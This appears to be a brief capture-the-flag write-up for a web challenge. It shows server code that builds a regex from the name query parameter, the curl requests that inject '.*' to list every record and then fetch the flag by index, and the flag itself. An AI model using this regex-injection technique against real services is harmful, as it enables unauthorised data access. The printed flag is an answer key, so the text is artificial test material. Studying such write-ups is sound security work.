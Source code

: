 ```yaml
---
ai_date: '2025-04-27 05:13:01'
ai_summary: Exploited regex-based filtering to bypass authentication and retrieve
  flag using string matching and index manipulation
ai_tags:
- regex
- bypass
- http-hdr
created: 2024-06-10T02:01
updated: 2024-06-10T23:18
---
```


> I found this database that does not use SQL, is there any way to break it?

---

```js
if (line.match('^'+req.query.name+'$')) {
	goodLines.push(line)
}
```

So it is taking our name as regex, give it `.*` then.

```sh
curl --request GET \
  --url 'http://challs.bcactf.com:30390/?name=.*'
```

There's someone with name `Flag Holder`, that's convenient.

> Ricardo Olsen has an ID of 1

Ah, so id is the index.

```sh
curl --request GET \
  --url http://challs.bcactf.com:30390/51/Flag/Holder

# bcactf{R3gex_WH1z_54dfa9cdba13}
```

Simple stuff.